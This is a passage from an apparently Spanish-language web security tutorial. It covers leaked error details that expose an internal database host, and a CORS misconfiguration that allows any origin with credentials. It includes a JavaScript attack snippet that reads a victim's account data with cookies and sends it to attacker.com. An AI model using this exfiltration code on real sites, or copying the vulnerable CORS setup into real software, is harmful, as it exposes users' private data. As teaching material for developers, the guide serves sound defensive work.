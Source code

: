 **Resultado**:

```json
{
  "error": "Connection timeout to db.internal.company.com:5432",
  "stack": "Error: Connection timeout\n  at /app/db/connection.js:42:15\n  at /app/routes/users.js:12:8",
  "config": {
    "dbHost": "db.internal.company.com",
    "dbPort": 5432
  }
}
```

El atacante ahora conoce:

- Host interno de la base de datos
- Puerto
- Estructura de directorios del código
- Librerías y versiones

### 4. CORS Mal Configurado

**Vulnerable**:

```typescript
router.get("/api/sensitive-data", async (ctx) => {
  ctx.set("Access-Control-Allow-Origin", "*"); // 🔴 Cualquier origen
  ctx.set("Access-Control-Allow-Credentials", "true"); // 🔴 Con credenciales

  ctx.body = { balance: 50000, accountNumber: "1234-5678-9012" };
});
```

**Ataque** (desde `https://attacker.com`):

```javascript
fetch("https://api.example.com/api/sensitive-data", {
  credentials: "include", // Envía cookies automáticamente
})
  .then((res) => res.json())
  .then((data) => {
    // Atacante puede leer datos sensibles desde otro dominio
    fetch("https://attacker.com/steal", {
      method: "POST",
      body: JSON.stringify(data),
    });
  });
```

---

## 🛡️ Cómo Protegerse

### 1. ✅ Deshabilitar Debug en Producción
